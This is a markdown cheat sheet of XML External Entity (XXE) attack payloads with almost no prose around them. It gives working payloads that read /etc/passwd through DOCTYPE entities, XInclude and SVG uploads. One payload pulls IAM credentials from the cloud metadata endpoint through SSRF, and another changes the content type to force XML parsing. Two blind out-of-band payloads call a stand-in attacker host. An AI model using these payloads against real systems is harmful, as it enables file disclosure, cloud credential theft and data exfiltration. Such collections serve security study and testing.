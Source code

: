 ### XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

### XXE to perform SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
### XXE using XInclude to retrieve files

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE trough SVG

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE via modified content type

Original:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Modified:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

### Blind XXE via Out-of-Band network

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

### Blind XXE with out-of-band interaction via XML parameter entities

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```

